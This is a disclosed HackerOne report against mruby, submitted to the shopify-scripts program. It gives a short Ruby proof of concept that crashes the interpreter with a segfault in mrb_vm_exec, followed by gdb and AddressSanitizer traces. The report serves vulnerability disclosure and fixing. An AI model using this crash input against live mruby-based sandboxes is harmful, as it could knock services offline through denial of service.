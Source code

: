 # SIGSEGV - mrb_vm_exec - line:1312

## Report Details
- **Report ID**: 203513
- **URL**: https://hackerone.com/reports/203513
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-02-05T01:04:15.548Z
- **Disclosed**: 2017-03-29T23:29:23.263Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
-------------------

The following code triggers the bug (attached as mrb_vm_exec.rb):

	n
	s
	s
	k
	(h)
	GC.start
	ObjectSpace.each_object{|obj|obj[]}
	
Debug - mirb
-------------------

	(gdb) r mrb_vm_exec.rb 
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	Starting program: /home/x/Desktop/research/test/mruby/bin/mirb mrb_vm_exec.rb
	mirb - Embeddable Interactive Ruby Shell

	(mirb):1: undefined method 'n' for main (NoMethodError)
	(mirb):2: undefined method 's' for main (NoMethodError)
	(mirb):3: undefined method 's' for main (NoMethodError)
	(mirb):4: undefined method 'k' for main (NoMethodError)
	(mirb):5: undefined method 'h' for main (NoMethodError)
	 => nil

	Program received signal SIGSEGV, Segmentation fault.
	0x000000000040a4ad in mrb_vm_exec (mrb=0x6ae010, proc=0x704570, pc=0x6ad540 <call_iseq>) at /home/x/Desktop/research/test/mruby/src/vm.c:1312
	1312	        regs[0] = m->env->stack[0];
	(gdb) info reg
	rax            0x0	0
	rbx            0x6c0e70	7081584
	rcx            0x6c0e80	7081600
	rdx            0xffffffffffffffff	-1
	rsi            0x1	1
	rdi            0x6c0ea0	7081632
	rbp            0x7fffffffc220	0x7fffffffc220
	rsp            0x7fffffffbc90	0x7fffffffbc90
	r8             0x3	3
	r9             0x6ba4b0	7054512
	r10            0xd	13
	r11            0x7ffff7895700	140737346361088
	r12            0x401ca0	4201632
	r13            0x7fffffffe050	140737488347216
	r14            0x0	0
	r15            0x0	0
	rip            0x40a4ad	0x40a4ad <mrb_vm_exec+8618>
	eflags         0x10246	[ PF ZF IF RF ]
	cs             0x33	51
	ss             0x2b	43
	ds             0x0	0
	es             0x0	0
	fs             0x0	0
	gs             0x0	0


Backtrace
-------------------

	(gdb) bt
	#0  0x000000000040a4ad in mrb_vm_exec (mrb=0x6ae010, proc=0x704570, pc=0x6ad540 <call_iseq>) at /home/x/Desktop/research/test/mruby/src/vm.c:1312
	#1  0x0000000000408301 in mrb_vm_run (mrb=0x6ae010, proc=0x6b5da0, self=..., stack_keep=3) at /home/x/Desktop/research/test/mruby/src/vm.c:801
	#2  0x0000000000410312 in mrb_run (mrb=0x6ae010, proc=0x6b5da0, self=...) at /home/x/Desktop/research/test/mruby/src/vm.c:2522
	#3  0x0000000000407ead in mrb_yield_with_class (mrb=0x6ae010, b=..., argc=1, argv=0x7fffffffc340, self=..., c=0x6ba4b0) at /home/x/Desktop/research/test/mruby/src/vm.c:682
	#4  0x0000000000407fe9 in mrb_yield (mrb=0x6ae010, b=..., arg=...) at /home/x/Desktop/research/test/mruby/src/vm.c:702
	#5  0x0000000000468b18 in os_each_object_cb (mrb=0x6ae010, obj=0x704570, ud=0x7fffffffc490) at /home/x/Desktop/research/test/mruby/mrbgems/mruby-objectspace/src/mruby_objectspace.c:139
	#6  0x000000000043439c in gc_each_objects (mrb=0x6ae010, gc=0x6ae0e8, callback=0x468a40 <os_each_object_cb>, data=0x7fffffffc490) at /home/x/Desktop/research/test/mruby/src/gc.c:1486
	#7  0x00000000004343f3 in mrb_objspace_each_objects (mrb=0x6ae010, callback=0x468a40 <os_each_object_cb>, data=0x7fffffffc490) at /home/x/Desktop/research/test/mruby/src/gc.c:1496
	#8  0x0000000000468bec in os_each_object (mrb=0x6ae010, self=...) at /home/x/Desktop/research/test/mruby/mrbgems/mruby-objectspace/src/mruby_objectspace.c:170
	#9  0x0000000000409e4b in mrb_vm_exec (mrb=0x6ae010, proc=0x6b60d0, pc=0x716198) at /home/x/Desktop/research/test/mruby/src/vm.c:1211
	#10 0x0000000000408301 in mrb_vm_run (mrb=0x6ae010, proc=0x6b60d0, self=..., stack_keep=1) at /home/x/Desktop/research/test/mruby/src/vm.c:801
	#11 0x0000000000402b90 in main (argc=2, argv=0x7fffffffe058) at /home/x/Desktop/research/test/mruby/mrbgems/mruby-bin-mirb/tools/mirb/mirb.c:549

Clang - mirb
-------------------

	x@x:~/Desktop/research/test/clang/mruby/bin$ ASAN_SYMBOLIZER_PATH=//usr/lib/llvm-3.8/bin/llvm-symbolizer ./mirb mrb_vm_exec.rb 
	mirb - Embeddable Interactive Ruby Shell

	(mirb):1: undefined method 'n' for main (NoMethodError)
	(mirb):2: undefined method 's' for main (NoMethodError)
	(mirb):3: undefined method 's' for main (NoMethodError)
	(mirb):4: undefined method 'k' for main (NoMethodError)
	(mirb):5: undefined method 'h' for main (NoMethodError)
	 => nil
	ASAN:DEADLYSIGNAL
	=================================================================
	==8045==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000018 (pc 0x0000004fb929 bp 0x7fffda858cc0 sp 0x7fffda858000 T0)
		#0 0x4fb928 in mrb_vm_exec /home/x/Desktop/research/test/clang/mruby/src/vm.c:1312:22
		#1 0x4f984e in mrb_vm_run /home/x/Desktop/research/test/clang/mruby/src/vm.c:801:10
		#2 0x4f8b73 in mrb_run /home/x/Desktop/research/test/clang/mruby/src/vm.c:2522:12
		#3 0x4f967c in mrb_yield_with_class /home/x/Desktop/research/test/clang/mruby/src/vm.c:682:11
		#4 0x4f97b0 in mrb_yield /home/x/Desktop/research/test/clang/mruby/src/vm.c:702:10
		#5 0x569544 in os_each_object_cb /home/x/Desktop/research/test/clang/mruby/mrbgems/mruby-objectspace/src/mruby_objectspace.c:139:3
		#6 0x52dcba in gc_each_objects /home/x/Desktop/research/test/clang/mruby/src/gc.c:1486:7
		#7 0x52dc3a in mrb_objspace_each_objects /home/x/Desktop/research/test/clang/mruby/src/gc.c:1496:3
		#8 0x5692f0 in os_each_object /home/x/Desktop/research/test/clang/mruby/mrbgems/mruby-objectspace/src/mruby_objectspace.c:170:3
		#9 0x4fb2d5 in mrb_vm_exec /home/x/Desktop/research/test/clang/mruby/src/vm.c:1211:18
		#10 0x4f984e in mrb_vm_run /home/x/Desktop/research/test/clang/mruby/src/vm.c:801:10
		#11 0x4f3010 in main /home/x/Desktop/research/test/clang/mruby/mrbgems/mruby-bin-mirb/tools/mirb/mirb.c:549:18
		#12 0x7faccff6dec4 in __libc_start_main /build/buildd/eglibc-2.19/csu/libc-start.c:287
		#13 0x41a575 in _start (/home/x/Desktop/research/test/clang/mruby/bin/mirb+0x41a575)

	AddressSanitizer can not provide additional info.
	SUMMARY: AddressSanitizer: SEGV /home/x/Desktop/research/test/clang/mruby/src/vm.c:1312:22 in mrb_vm_exec
	==8045==ABORTING

Impact
--------------------

It can cause DoS.

## Attachments
- mrb_vm_exec.rb
